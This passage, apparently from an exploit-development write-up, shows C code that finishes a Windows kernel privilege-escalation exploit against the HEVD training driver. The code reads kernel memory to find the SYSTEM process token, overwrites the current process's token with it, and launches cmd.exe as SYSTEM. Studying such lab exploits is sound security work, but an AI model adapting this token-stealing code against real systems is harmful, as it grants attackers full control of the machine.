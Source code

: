 ```c
	u64 kernelBase = GetKernelBase();
	if (kernelBase == 0) ExitProcess(1);

	u64 PsInitialSystemProcessPtr = ReadQWORD(hHEVD, kernelBase + PsInitialSystemProcessOffset);
	printf("PsInitialSystemProcessPtr: 0x%llx\n", PsInitialSystemProcessPtr);

	u64 SystemProcessTokenPtr = ReadQWORD(hHEVD, PsInitialSystemProcessPtr + TokenOffset) & ~0xF;
	printf("SystemProcessTokenPtr:  0x%llx\n", SystemProcessTokenPtr);

	DWORD TargetPID = GetCurrentProcessId();

	u64 ProcessHead = PsInitialSystemProcessPtr;
start:
	ProcessHead = ReadQWORD(hHEVD, ProcessHead + ActiveProcessLinksOffset) - ActiveProcessLinksOffset;
	if (ReadQWORD(hHEVD, ProcessHead + UniqueProcessIdOffset) != TargetPID) {
		goto start;
	}

	u64 TargetProcessTokenRefCount = ReadQWORD(hHEVD, ProcessHead + TokenOffset) & 15;
	u64 FinalToken  = TargetProcessTokenRefCount | SystemProcessTokenPtr;
	WriteQWORD(hHEVD, &FinalToken, ProcessHead + TokenOffset);

	STARTUPINFOW        si = { .cb = sizeof(STARTUPINFOW) };
	PROCESS_INFORMATION pi = { 0 };

	if (CreateProcessW(L"C:\\Windows\\System32\\cmd.exe",
		NULL, NULL, NULL, FALSE, 0, NULL, NULL,
		&si, &pi)) 
	{
		WaitForSingleObject(pi.hProcess, INFINITE);
		CloseHandle(pi.hThread);
		CloseHandle(pi.hProcess);
	}

	return 0;
}
```

![token_steal](/assets/img/2025-02-01/token_steal.png)

